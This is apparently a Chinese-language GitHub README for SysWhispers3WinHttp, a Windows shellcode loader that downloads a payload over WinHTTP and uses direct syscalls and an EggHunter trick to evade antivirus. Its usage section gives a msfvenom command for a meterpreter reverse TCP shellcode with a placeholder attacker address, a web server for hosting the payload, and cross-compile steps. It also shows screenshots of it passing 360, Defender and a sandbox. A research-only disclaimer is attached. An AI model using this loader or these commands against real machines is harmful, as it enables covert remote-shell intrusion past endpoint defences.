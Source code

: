 # SysWhispers3WinHttp
SysWhispers3WinHttp 基于SysWhispers3增添WinHttp分离加载，在Linux下使用GCC进行交叉编译。

## 0x00 免责声明

该项目仅供安全研究使用，禁止使用该项目进行违法操作，否则由使用者承担全部法律及连带责任。

## 0x01 更新日志

2024/06/20 增添MinGW下EggHunter技术，绕过对syscall指令的静态检测。

2023/07/03 支持64位程序在Windows 7 x64上线。

2023/06/06 支持64位GCC编译与Stager方式上线SliverC2，增添编译参数绕过静态检测。

## 0x02 使用

```
// 1. 使用msfvenom生成Shellcode（或使用CobaltStrike生成Stageless之Shellcode）
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=x.x.x.x lport=4444 -f raw -o beacon.bin

// 2. 使用python3开启Web服务（或使用CobaltStrike之HostFile功能）
python3 -m http.server

// 3. 修改SysWhispers3WinHttp.c第72行IP地址，使用Linux64位GCC进行交叉编译
x86_64-w64-mingw32-gcc -o SysWhispers3WinHttp.exe syscalls64.c SysWhispers3WinHttp.c -masm=intel -w -s -lwinhttp -lpsapi

// ps. 或修改SysWhispers3WinHttp.c第4行头文件为syscalls.h，修改第72行IP地址，使用Linux32位GCC进行交叉编译
i686-w64-mingw32-gcc -o SysWhispers3WinHttp.exe syscalls.c SysWhispers3WinHttp.c -masm=intel -w -s -lwinhttp -lpsapi
```

## 0x03 演示

360云安全计划（2024/06/21更新）
![360云安全计划](https://github.com/huaigu4ng/SysWhispers3WinHttp/assets/128464183/a777d104-1f93-4e16-931c-0b2222c64504)

360核晶（2023/06/06更新）
![360](https://github.com/huaigu4ng/SysWhispers3WinHttp/assets/128464183/f02a6de4-d6db-4012-91f8-e75df30f49ab)

Defender（2023/06/06更新）
![WD](https://github.com/huaigu4ng/SysWhispers3WinHttp/assets/128464183/33e47a93-59ba-48b1-aecb-ffb11dad66bc)

微步云沙箱
![threatbook](https://github.com/huaigu4ng/SysWhispers3WinHttp/assets/128464183/bfd99aee-6f82-4960-a461-12c1b83b594a)

## 0x04 参考链接
https://github.com/klezVirus/SysWhispers3

https://learn.microsoft.com/zh-cn/windows/win32/api/winhttp/nf-winhttp-winhttpconnect
